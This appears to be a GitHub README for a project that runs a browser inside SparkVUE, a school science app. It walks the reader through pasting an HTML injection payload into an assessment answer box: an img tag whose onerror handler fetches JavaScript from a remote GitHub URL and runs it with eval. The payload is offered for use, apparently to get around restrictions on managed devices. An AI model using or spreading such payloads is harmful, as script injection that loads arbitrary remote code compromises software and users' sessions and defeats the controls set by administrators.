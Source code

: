 # Browser
A browser for sparkvue
Instructions:
1. Open SparkVUE from your app launcher
2. Click "Build New Experiment"
3. Click the full grey box (or the split ones, it doesn't really matter)
4. Click the paper with the checkmarks, and click "Add an Assessment"
5. Choose "Multiple Choice", and paste this into one of the "Answer" boxes:
```
<img src=# onerror='
  fetch(`https://raw.githubusercontent.com/cam0studios/browser/main/main.js`)
  .then(r => r.text())
  .then(c => eval(c));
'>
```
For easy future use:
1. Click "save" and go to the hamburger menu
2. Hit "Save As", choose a name
3. Next time you open up SparkVUE, click "Open Saved Experiment" and click that file
